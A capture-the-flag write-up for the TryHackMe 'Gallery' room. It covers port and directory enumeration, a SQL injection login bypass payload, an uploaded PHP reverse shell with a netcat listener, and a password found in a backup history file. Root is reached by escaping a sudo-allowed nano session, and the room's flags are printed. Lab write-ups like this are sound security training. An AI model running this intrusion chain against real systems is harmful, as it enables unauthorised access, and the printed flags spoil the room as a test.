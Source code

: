 # Room: Gallery

## General Info
- **Room link:** [Gallery](https://tryhackme.com/room/gallery666)


## Description

Our gallery is not very well secured.

## Provided Files / Links
- [x] Target Machine IP (10.10.158.132)

## Enumeration / Recon

- Port Enumeration:
`nmap -sV 10.10.158.132 -p- -T5`

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

Note: 2 http ports are open (80 and 8080).

- Directory Enumeration

I enumerate on the port 80:

`gobuster dir -u http://10.10.158.132 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt`

```
/gallery              (Status: 301) [Size: 316] [--> http://10.10.158.132/gallery/]
/server-status        (Status: 403) [Size: 278]
```

I enumerate on the port 8080 (directories):

`gobuster dir -u http://10.10.158.132:8080 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --exclude-length 15916`

```
/home                 (Status: 200) [Size: 16950]
/archives             (Status: 301) [Size: 324] [--> http://10.10.158.132:8080/archives/]
/login                (Status: 200) [Size: 19571]
/user                 (Status: 301) [Size: 320] [--> http://10.10.158.132:8080/user/]
/uploads              (Status: 301) [Size: 323] [--> http://10.10.158.132:8080/uploads/]
/assets               (Status: 301) [Size: 322] [--> http://10.10.158.132:8080/assets/]
/report               (Status: 301) [Size: 322] [--> http://10.10.158.132:8080/report/]
/albums               (Status: 301) [Size: 322] [--> http://10.10.158.132:8080/albums/]
/plugins              (Status: 301) [Size: 323] [--> http://10.10.158.132:8080/plugins/]
/database             (Status: 301) [Size: 324] [--> http://10.10.158.132:8080/database/]
/classes              (Status: 301) [Size: 323] [--> http://10.10.158.132:8080/classes/]
/index                (Status: 200) [Size: 148035437]
/config               (Status: 200) [Size: 7545]
/dist                 (Status: 301) [Size: 320] [--> http://10.10.158.132:8080/dist/]
/inc                  (Status: 301) [Size: 319] [--> http://10.10.158.132:8080/inc/]
/build                (Status: 301) [Size: 321] [--> http://10.10.158.132:8080/build/]
/schedules            (Status: 301) [Size: 325] [--> http://10.10.158.132:8080/schedules/]
/create_account       (Status: 200) [Size: 15726]
/server-status        (Status: 403) [Size: 280]
```

I enumerate the files on port 8080 as well:

`gobuster dir -u http://10.10.158.132:8080 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-files.txt --exclude-length 15916`

```
/index.php            (Status: 200) [Size: 16950]
/login.php            (Status: 200) [Size: 8047]
/wp-login.php         (Status: 200) [Size: 15843]
/create_account.php   (Status: 200) [Size: 8]
/config.php           (Status: 200) [Size: 0]
/home.php             (Status: 500) [Size: 0]
/404.html             (Status: 200) [Size: 198]
/.htaccess            (Status: 403) [Size: 280]
/.                    (Status: 200) [Size: 16950]
/.html                (Status: 403) [Size: 280]
/secure_login.php     (Status: 200) [Size: 15843]
/.php                 (Status: 403) [Size: 280]
/user_login.php       (Status: 200) [Size: 15843]
/.htpasswd            (Status: 403) [Size: 280]
/.htm                 (Status: 403) [Size: 280]
/customer-login.php   (Status: 200) [Size: 15843]
/checklogin.php       (Status: 200) [Size: 15843]
/.htpasswds           (Status: 403) [Size: 280]
/bb-login.php         (Status: 200) [Size: 15843]
/member_login.php     (Status: 200) [Size: 15843]
/admin_login.php      (Status: 200) [Size: 15843]
/adminlogin.php       (Status: 200) [Size: 15843]
/s2dlogin.php         (Status: 200) [Size: 15843]
/processlogin.php     (Status: 200) [Size: 15843]
/.htgroup             (Status: 403) [Size: 280]
/clientlogin.php      (Status: 200) [Size: 15843]
/wp-forum.phps        (Status: 403) [Size: 280]
/autologin.php        (Status: 200) [Size: 15843]
/process_login.php    (Status: 200) [Size: 15843]
/client_login.php     (Status: 200) [Size: 15843]
/dologin.php          (Status: 200) [Size: 15843]
/login.php3           (Status: 200) [Size: 15843]
/.htaccess.bak        (Status: 403) [Size: 280]
/batch.login.php      (Status: 200) [Size: 15843]
/c_login.php          (Status: 200) [Size: 15843]
/check_login.php      (Status: 200) [Size: 15843]
/midlogin.php         (Status: 200) [Size: 15843]
/myacc_login.php      (Status: 200) [Size: 15843]
/sendlogin.php        (Status: 200) [Size: 15843]
/staff-login.php      (Status: 200) [Size: 15843]
/.htuser              (Status: 403) [Size: 280]
/account-login.php    (Status: 200) [Size: 15843]
/customer_login.php   (Status: 200) [Size: 15843]
/fix_login.php        (Status: 200) [Size: 15843]
/memberlogin.php      (Status: 200) [Size: 15843]
/takelogin.php        (Status: 200) [Size: 15843]
/.ht                  (Status: 403) [Size: 280]
/.htc                 (Status: 403) [Size: 280]
/account_login.php    (Status: 200) [Size: 15843]
/alogin.php           (Status: 200) [Size: 15843]
/cplogin.php          (Status: 200) [Size: 15843]
/fblogin.php          (Status: 200) [Size: 15843]
/links_login.php      (Status: 200) [Size: 15843]
/login.php5           (Status: 200) [Size: 15843]
/resend_login.php     (Status: 200) [Size: 15843]
/userlogin.php        (Status: 200) [Size: 15843]
```

Most of the directories/files don't lead to anything relevant.

The only relevant page here is /gallery which leads to a login page.

When trying random username/password pairs, I notice that the SQL query that is made is actually displayed in the /login.php request:

`{"status":"incorrect","last_qry":"SELECT * from users where username = 'adazd' and password = md5('azdazd') "}`

I then try for SQL injection with a basic payload `' OR 1 = 1 -- -` and I get in being the administrator of the CMS "Simple Image Gallery".

In user account page, I notice that I can upload an avatar picture. I will try to test for RCE.
I create a PHP reverse shell, upload it, and listen to the port that I chose (`nc -nlvp 1337`).
I then get access to the target machine and I am www-data.

### Target machine exploitation

I stabilize the shell with `python3 -c 'import pty; pty.spawn("/bin/bash")'`.

Then I downloaded and ran linpeas.sh in the /tmp directory.

In the "Searching passwords in history files" section, I find this line:

`/var/backups/mike_home_backup/.bash_history:sudo -lb3stpassw0rdbr0xx`

`b3stpassw0rdbr0xx` looks like a password. I test it on the user mike and I am able to log in.

I can now get the flag in the user.txt file: **THM{af05cd30bfed67849befd546ef}**.

I check mike's permissions wiht `sudo -l`: `(root) NOPASSWD: /bin/bash /opt/rootkit.sh`.

The rootkit.sh script is the following:

```
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

If I select the option `read`, I will be able to exploit nano to get privilege escalation as root.

Before executing the script, I make some changes in my shell to stabilize further:

- CTRL + Z to go back to my attacker machine
- `stty raw -echo;fg`
- I now have a stabilized shell where I all the key presses are well interpreted

I try to run the command `sudo /bin/bash /opt/rootkit.sh` and select the option `read` but it get the error: Error `opening terminal: unknown`. It means that the terminal type isn't properly set when nano is launched with sudo from that script.

I then export `export TERM=xterm` and run the script (`sudo /bin/bash /opt/rootkit.sh` and select the option `read`).

Following https://gtfobins.github.io/gtfobins/nano/, I just have to press CTRL + R and CTRL + X and I can perform any command as root: `cat /root/root.txt` => **THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}**. 
